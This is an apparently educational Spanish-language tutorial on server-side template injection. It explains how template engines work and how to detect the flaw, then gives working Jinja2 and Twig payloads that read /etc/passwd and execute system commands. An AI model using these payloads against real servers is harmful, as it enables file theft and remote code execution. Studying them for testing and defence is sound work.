

+++
title = 'SSTI'
draft = false
description = "Explicación del concepto de SSTI."
tags = ["SSTI"]
showToc = true
math = true
+++

# Server-Side Template Injection
## Template Engines
Un **Template Engine** es *un software que combina plantillas predefinidas con datos generados dinámicamente y que las apps web suelen utilizar para generar respuestas dinámicas.*

Por ejemplo, una página web con un header que "saluda al usuario" podría contener un código como:
```jinja2
Hola de nuevo, {{ FullName }}.
```
que al renderizarse, sustituyendo `FullName` con el usuario actual, quedaría:
```html
Hola de nuevo, Juan.
```
## Intro - SSTI
Podemos ver el proceso de renderizado como una función `render()` que toma dos argumentos, `template` y `parameters`: `render(template, parameters)`.

El argumento `template` se renderiza, si en él pone `{{date}}`, al pasarlo a `render()` pondrá `2024-01-05`.

El argumento `parameters` simplemente son datos que se colocan en lugares predefinidos, sin ser procesados.

Si el templating está bien implementado, el input del usuario se pasará en forma de datos (`parameters`) sin un significado intrínseco, se meterán en la plantilla como datos sin procesar:
```non-ssti
-> No vulnerable a SSTI:
render(template, user_input)
```

Por otro lado, si está mal implementado, puede darse el caso en que *primero se meta el input de usuario en la plantilla*, y entonces se renderice:
```ssti
-> Vulnerable a SSTI:
render(template_con_user_input, parameters)
```

Si el usuario es capaz de inyectar código en la plantilla que luego será renderizada por el Template Engine, el servidor ejecutará ese código, dándose el caso de SSTI.

Esto puede pasar en varios casos:
- El input de usuario se mete a la plantilla antes de ser renderizada.
- Una plantilla se renderiza varias veces en bucle (el output del renderizado anterior es el input del actual)
- Los usuarios tienen permiso para modificar las plantillas directamente.

## Identificación de SSTI
Encontrar un potencial caso de SSTI no es muy distinto a hacerlo para otras vulnerabilidades como SQLi.

Podemos meter un input como el siguiente para intentar conseguir un mensaje de error que nos indique que el string ha sido procesado realmente:

<pre><code>${&#123;<%[%'"}}%\.</code></pre>

Si conseguimos un error al pasar el string de arriba, es posible que la página sea vulnerable a SSTI.

## Identificación de Template Engine
Una vez tenemos las sospechas de la potencial vulnerabilidad, deberíamos identificar el template engine para poder enfocarnos en su sintaxis específica. Podemos seguir este diagrama de [PortSwigger](https://portswigger.net/web-security/server-side-template-injection):



Usamos `${7*7}` como user input, si no funciona, usamos `{{7*'7'}}`, si funciona `a{*comment*}b`, y así sucesivamente.

## Explotación de SSTI -> Jinja2
> ***Jinja2 es un template engine escrito en python hecho para ejecutarse sobre frameworks web de python***

Jinja es usado normalmente en frameworks web de Python como `Flask` o `Django`. En nuestro payload podremos usar cualquier función de librerías ya importadas en la app web, o a veces incluso podremos importar más con `import`.

#### Config de app web
Para conseguir info de la app web:
```jinja2
{{ config.items() }}
```

#### Funciones disponibles
Para conseguir todas las funciones por defecto disponibles:
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

#### LFI
Para leer un archivo del servidor, podemos usar `open`, aunque tendremos que llamarlo desde `__builtins__`:
```jinja2
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

#### RCE
Para ejecutar comandos, podemos usar funciones de la librería `os`, como `system` o `popen`. Si no está importada, podemos importarla con `import`:
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

## Explotación de SSTI -> Twig
> ***Twig es en esencia un port de Jinja2 para PHP, no trabaja con objetos de python, sólamente de php***

#### Info de plantilla
Usando `_self` podemos conseguir info acerca de la plantilla actual.
- En `Twig v1`, supone un vector de RCE directo, pues `_self` es un objeto, por lo que expone métodos que permiten registrar funciones no definidas para ejecutar comandos del sistema
- En `Twig v2,v3`, `_self` es un simple string. No sirve para conseguir RCE pero da info, aunque eso no significa que no haya otros vectores para RCE.

```twig
{{ _self }}
```

#### LFI
Twig no tiene funciones por defecto para abrir archivos, por lo que dependerá en gran medida del framework web en uso.

Para abrir archivos, si se usa `Symfony` (estándar enterprise y en el que se basan otros frameworks como Laravel):
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
Esto lee `/etc/passwd` desde el inicio (línea `1`) hasta el final (línea "`-1`").

#### RCE

Podemos usar funciones predefinidas de PHP para ejecutar comandos:
```twig
{{ ['id'] | filter('system') }}
```
